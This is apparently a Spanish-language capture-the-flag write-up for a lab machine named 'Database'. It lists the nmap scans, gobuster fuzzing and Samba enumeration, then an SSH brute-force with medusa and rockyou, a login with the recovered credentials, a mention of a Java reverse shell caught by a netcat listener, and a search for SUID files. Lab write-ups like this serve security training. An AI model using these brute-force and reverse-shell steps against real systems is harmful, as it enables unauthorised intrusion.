


# Máquina Database

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,139,445 -vvv -Pn 172.17.0.2

### Fuzzing Web

gobuster dir -t 200 -u http://172.17.0.1/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null

### Analizando Samba

enum4linux 172.17.0.2

### Ataque con medusa hacia ssh.

creé un archivo users con los nombres de usuarios: augustus, dylan y bob luego lancé el ataque

medusa -h 172.17.0.2 -U users -P /usr/share/wordlists/rockyou.txt -M ssh

### Intrusión

nos conectamos por ssh con el usuario augustus y la contraseña lovely

código de rev.java

me puse en escucha con netcat en el puerto 443

hice tratamiento de la tty, luego ejecuté:

find / -perm -4000 2>/dev/null

